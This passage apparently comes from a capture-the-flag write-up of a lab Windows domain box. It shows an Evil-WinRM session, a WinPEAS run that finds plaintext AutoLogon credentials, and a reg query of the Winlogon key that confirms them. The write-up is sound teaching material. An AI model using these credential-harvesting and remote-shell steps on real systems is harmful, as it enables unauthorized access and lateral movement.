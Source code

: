 ```text
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
*Evil-WinRM* PS C:\Users\FSmith\Documents>
```

Luckily for me `fsmith` was a member of the `Remote Management Users` group and I was able to log in.  Next I collected my hard-earned loot.

```text
*Evil-WinRM* PS C:\Users\FSmith\Desktop> cat user.txt
1b5520b98d97cf17f24122a55baf70cf
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User `fsmith`

After running the command `whoami /all` my next step when gaining access as a new user is to try to do as much enumeration as possible.  The Windows Privilege Escalation Awesome Scripts \([Winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)\) tool is a collection of scripts that make this enumeration extremely simple.  In this case, it made moving laterally to another user very easy to complete.  

```text
--Cut from WinPEAS.exe--

C:\Windows\System32\OpenSSH\
[+] Looking for AutoLogon credentials(T1012)
    Some AutoLogon credentials were found!!
    DefaultDomainName             :  35mEGOTISTICALBANK
    DefaultUserName               :  35mEGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!

  [+] Home folders found(T1087&T1083&T1033)
    C:\Users\Administrator
    C:\Users\All Users
    C:\Users\Default
    C:\Users\Default User
    C:\Users\FSmith
    C:\Users\Public
    C:\Users\svc_loanmgr
```

Auto-logon is a terrible, terrible service that should never be used, but makes it convenient for users when they are the only ones who use a computer. As the name implies, Windows will automatically log the user on by caching their credentials.  I verified this output by looking up the registry key where this information is stored using the `reg query` command.  Auto-logon credentials are stored in the key`HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon`.  

```text
*Evil-WinRM* PS C:\Users\FSmith\Documents> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    EGOTISTICALBANK
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
```